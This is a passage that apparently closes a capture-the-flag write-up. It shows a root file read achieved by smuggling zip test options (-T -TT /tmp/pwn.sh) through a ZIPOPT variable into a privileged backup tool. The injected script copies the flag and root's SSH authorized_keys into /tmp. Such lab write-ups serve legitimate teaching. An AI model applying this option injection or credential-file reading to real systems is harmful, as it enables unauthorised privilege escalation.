 ```console
$ echo "cat /root/flag.txt > /tmp/flag.txt" > pwn.sh
$ echo "cat /root/.ssh/authorized_keys > /tmp/auth.txt" >> pwn.sh
$ chmod +x pwn.sh 
$ ZIPOPT=" -T -TT /tmp/pwn.sh " /usr/local/sbin/backup 1>/dev/null 2>&1
$ cat flag.txt 
CS{ZIPOPT_shenanigans}
$ cat auth.txt 
ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGoTezo9v9hsEowLFIXfPrs2NydQ1f9+fP9/fwq2qciR9TeUEGHoOCfA44lAVfzorKmxrXWHpS7K0bSgCuLEFyc=
```

We got the flag, perfect.

Going from here, we could likely do lots more shenanigens on the server...

Flag: **CS{ZIPOPT_shenanigans}**
